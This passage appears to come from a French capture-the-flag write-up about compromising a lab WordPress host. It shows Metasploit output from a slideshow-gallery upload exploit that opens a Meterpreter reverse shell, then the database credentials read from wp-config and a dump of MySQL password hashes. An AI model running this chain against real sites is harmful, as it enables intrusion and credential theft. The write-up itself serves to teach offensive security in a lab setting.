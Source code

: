 ```plain

msf exploit(wp_slideshowgallery_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.240:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file xfgkwjpm.php
[*] Sending stage (33684 bytes) to 192.168.2.3
[*] Meterpreter session 1 opened (192.168.2.240:4444 -> 192.168.2.3:57984) at 2018-03-11 12:05:43 +0100
[+] Deleted xfgkwjpm.php
meterpreter > ls
Listing: /var/www/html/weblog/wp-content/uploads/slideshow-gallery
==================================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   4096    dir   2017-11-13 04:43:29 +0100  cache
100644/rw-r--r--  108987  fil   2017-11-13 04:45:12 +0100  derp.png
100644/rw-r--r--  1114    fil   2017-12-12 22:44:11 +0100  elidumfy.php
```

Password reuse
--------------

Une fois le shell récupéré on peut lire les identifiants SQL dans le wp-config :  

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Ce qui permet de dumper les hashs des utilisateurs MySQL :  

```plain
mysql> select User, Password from user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| debian-sys-maint | *B95758C76129F85E0D68CF79F38B66F156804E93 |
| unclestinky      | *9B776AFB479B31E8047026F1185E952DD1E530CB |
| phpmyadmin       | *4ACFE3202A5FF5CF467898FC58AAB1D615029441 |
+------------------+-------------------------------------------+
7 rows in set (0.00 sec)
```
